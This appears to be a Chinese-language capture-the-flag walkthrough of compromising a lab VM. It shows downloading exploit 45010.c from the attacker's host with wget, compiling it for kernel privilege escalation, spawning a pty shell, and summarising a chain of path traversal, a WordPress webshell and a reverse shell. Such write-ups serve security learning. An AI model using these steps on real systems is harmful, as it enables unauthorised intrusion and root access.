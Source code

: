 然后把文件传到靶机上

```
本地开启服务器
php -S 0:80
靶机
一般都在 /tmp目录下载（因为权限比较高）
wget http://192.168.52.137/45010.c
没用执行权限 chmod+x 45010.c
```

gcc 45010.c -o 45010-2先编译

然后./45010-2执行，提权成功

![image-20231007171719887](..\img\final\image-20231007171719887.png)

然后看下有没有 python ,dpkg -l,发现有

生成一个交互式的

```
python -c "import pty;pty.spawn('/bin/bash')"
```

最后去root目录拿下flag

## 总结

渗透耗时 4个小时

```
首先扫端口，22 80，然后扫描80端口的目录，发现了 index.php image.php
用dirb指定后缀  .txt  发现了 secret.php
然后fuzz获得参数file= file=location.txt  发现了 那个secret360
然后 image.php?secre=../../获得了密码
登陆wordpress，写入一句话木马反弹shell成功
通过内核提权
```

nice!!!